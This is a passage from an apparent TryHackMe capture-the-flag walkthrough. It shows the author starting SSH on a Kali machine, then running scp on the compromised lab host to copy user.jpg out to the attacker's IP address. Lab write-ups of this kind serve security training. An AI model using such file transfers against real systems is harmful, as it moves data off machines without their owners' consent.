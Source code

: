 ```tsx
┌──(kali㉿kali)-[~/TryHackMe/JackofAllTrades]
└─$ service ssh status                   
○ ssh.service - OpenBSD Secure Shell server
     Loaded: loaded (/lib/systemd/system/ssh.service; disabled; preset: disabled)
     Active: inactive (dead)
       Docs: man:sshd(8)
             man:sshd_config(5)
                                                                                                                    
┌──(kali㉿kali)-[~/TryHackMe/JackofAllTrades]
└─$ service ssh start 
                                                                                                                    
┌──(kali㉿kali)-[~/TryHackMe/JackofAllTrades]
└─$ service ssh status
● ssh.service - OpenBSD Secure Shell server
     Loaded: loaded (/lib/systemd/system/ssh.service; disabled; preset: disabled)
     Active: active (running) since Wed 2023-08-09 05:22:44 EDT; 2s ago
       Docs: man:sshd(8)
             man:sshd_config(5)
    Process: 699110 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
   Main PID: 699114 (sshd)
      Tasks: 1 (limit: 4581)
     Memory: 2.9M
        CPU: 28ms
     CGroup: /system.slice/ssh.service
             └─699114 "sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups"

Aug 09 05:22:44 kali systemd[1]: Starting ssh.service - OpenBSD Secure Shell server...
Aug 09 05:22:44 kali sshd[699114]: Server listening on 0.0.0.0 port 22.
Aug 09 05:22:44 kali sshd[699114]: Server listening on :: port 22.
Aug 09 05:22:44 kali systemd[1]: Started ssh.service - OpenBSD Secure Shell server.
```

Then, on the remote server, use `scp` to transfer the file:

```tsx
jack@jack-of-all-trades:~$ scp user.jpg kali@10.8.97.213:/home/kali/TryHackMe/JackofAllTrades/
kali@10.8.97.213's password: 
user.jpg                                                                          100%  286KB 286.4KB/s   00:00
```

I use `display` on linux to view the picture:
